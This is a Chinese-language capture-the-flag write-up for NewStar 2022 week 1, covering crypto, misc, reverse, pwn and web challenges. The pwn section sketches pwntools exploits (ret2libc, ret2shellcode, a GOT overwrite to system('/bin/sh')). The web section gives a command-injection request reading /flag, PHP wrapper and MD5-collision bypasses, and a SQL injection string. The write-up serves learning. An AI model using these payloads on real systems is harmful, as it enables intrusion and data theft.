

Newstar 2022 |week1
一个月的newstar比赛，提供了一次很好的入门机会，边学边做，提高了很多。在此感谢出题的师傅们。直到现在有时间整理下题目做法，开始陆续写写wp。我还专门注册了一个新号上去看看能不能参加，现在也行，给出题人和buu平台点个赞！
week1的题目比较简单，在此复现和记录一下。入口链接：https://buuoj.cn/match/matches/146
Crypto
caeser
去随波逐流一键解密。
吉奥万·巴蒂斯塔·贝拉索先生的密码
维吉尼亚解密：https://www.guballa.de/vigenere-solver
easyxor
1 | cipher = bytes.fromhex('9b919c9a8685cd8fa294c8a28c88cc89cea2ce9c878480') |
RSA_begin
这道题应该是本次密码最难的题目。
level5：卡住了，问了问大佬。
这样的话，\(hint * e^e - 1\)包含了\(p\)这个质因数，可以和n求最大公约数解出来\(p\)。
1 | from Crypto.Util.number import * |
chaos
这是一道基础爆破题目，题目比较长，不要被吓到。已知k1,k2和k(a_1, timea1, b_1, timeb1, xc_1, yc_1)，就可以直接利用LC求miu和omiga。然后爆破下就行了。
1 | import random |
Misc
Yesec no drumsticks 1
qsdz's girlfriend 1
用ARCHPR爆破。19900101开始到20200101，得到20031201。
用搜索引擎图片识别。
flag{Hikari_20031201}
Look my eyes
SilentEye解密。
解码默认设置就行。
1 | ZmxhZ3tMMG9rX20zXzFuX215X2V5M3N9 |
EzSnake
这道题有两种做法，可以直接改class，也可以反编译出java文件。
反编译class，这也是我当时做法。首先用jd-gui打开，在actionPerformed函数中找到关键代码：
将ezsnake.jar改成ezsnake.zip，解压。用jclasslib打开GamePanel.class文件。找到以下位置。
将289行114改成1，保存。回到解压文件夹的根目录：
选中这个目录中三个文件夹，压缩成zip,后缀改成.jar。便可以运行了。吃一个就能够出结果：
我是放到ps里面补全的，其他工具也行。
ZmxhZ3tZMHVfNHJlXzBuZV9vTmVfMG5FX3N0NFJ9=
flag{Y0u_4re_0ne_oNe_0nE_st4R}
jd-gui输出src文件。然后用eclipse打开，修改114为1：
奇怪的音频。
这题也有两种做法，一种win和一种linux。
- windows方法比较简单。mmsstv中RX模式，开着声音直接可以解出来，但是存在扫不出来的概率，前一天扫出来了，后一天可能就没有扫出来。
利用linux的qsstv。直接解会报错，所以我们需要先修改一下文件。
首先去buuctf找到[UTCTF2020]sstv这道题。用audacity打开同时打开这两个文件。
然后把这道”奇怪的音频“的波形复制到[UTCTF2020]sstv这道题音频的波形上，覆盖源波形，就可以用qsstv读取了。
Pwn
简单题就直接贴代码了。都是python3。
ret2text
1 | from pwn import * |
calc
这应该算misc题目吧。
1 | from pwn import * |
ret2libc
好多师傅讲的很明白了：https://blog.csdn.net/qq_40827990/article/details/86662079
1 | from pwn import * |
ret2shellcode
1 | from pwn import * |
fallw1nd’s gift
给了got表中puts指向的地址，也就是libc中put地址。然后在scanf输入got表中puts地址的值，为buf，在buf上输入libc中system地址，puts就变成了system，执行system('/bin/sh');
1 | from pwn import * |
Reverse
Hello_Reverse
1 | .rdata:0000000140003260 0000000D C flag{h3llo_r |
Baby_Re
1 | flag = [#flag{S0meth1ng_run_bef0re_main!}0x66, 0x6D, 0x63, 0x64, 0x7F, 0x56, 54, 0x6A, 0x6D, 0x7D, 0x62, 58, 0x62, 0x6A, 0x51, 0x7D, |
Pyre
- exe to pyc: https://github.com/extremecoders-re/pyinstxtractor
1 | python pyinstxtractor.py pyre.exe |
用010editor打开extracted文件夹下pyre和struct。将struct第一行复制到pyre中，保存pyre为pyre.pyc。
- pyc to py:
pip install uncompyle6
1 | uncompyle6 pyre.pyc > pyre.py |
后面的代码非常容易理解了，直接上exp:
1 | table = [7, 8, 1, 2, 4, 5, 13, 16, 20, 21, 0, 3, 22, 19, 6, 12, 11, 18, 9, 10, 15, 14, 17] |
EasyRe
找到dll中的encode函数，用ida进dll以后发现是encode_0函数，发现是base64。base64返回值做了一个异或加密，异或加密的str为‘Reverse’：

exp:
1 | enc = [ 0x08, 0x08, 0x0E, 0x0D, 0x28, 0x40, 0x11, 0x11, 0x3C, 0x2E, 0x2B, 0x1E, 0x3D, 0x0F, 0x00, 0x03, |
艾克体悟题
我的安卓题做的不好，而且我比较懒= =开安卓模拟器需要把windows各种虚拟机关掉，我心爱的wsl2用不了实在是不好受= =还是看其他师傅写好的wp吧：https://www.anyiblog.top/2022/09/25/20220925/
Web
HTTP
1 | #linux的curl语句，wsl2中做题记录,wsl2会自动加上"\"，不用管： |
Head?Header!
1 | curl node4.buuoj.cn:28006 -H 'User-Agent:CTF' -v |
我真的会谢
题目提示：
1 | Flag has three part, qsdz hid them in different files. |
在不同的文件里面，那么我么需要这些文件。dirsearch不能直接扫描buu的题目了，但其实延迟的参数就可以了。我的环境是wsl的kali：
1 | dirsearch -u http://e4e77030-f04f-4879-835d-1d3e838f7007.node4.buuoj.cn:81/ -s 5 |

1 | wget http://84bb312a-45f4-422d-a658-41aeacc1b243.node4.buuoj.cn:81/.index.php.swp |
另外两个在robots.txt和www.zip里面。
NotPHP
第一步，php伪协议：
1 | data://text/plain;base64,V2VsY29tZSB0byBDVEY= |
第二步，利用md5的碰撞，两个字符串不一样但是加密相等。
https://blog.csdn.net/qq_64201116/article/details/126493091里面提供了一个字符串。
1 | $a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2 |
第三步，num可以在结尾添加%00绕过。
第四步，cmd用%0a换行符绕过#。
1 | cmd=%0asystem('cat%20/flag'); |
burpsuite包：
1 | POST /?data=data://text/plain;base64,V2VsY29tZSB0byBDVEY=&key1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2&key2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&cmd=%0asystem('cat%20/flag'); HTTP/1.1 |
Word-For-You
直接用sqlmap了。
1 | 用' or 1=1#试了一下就都出来了。 |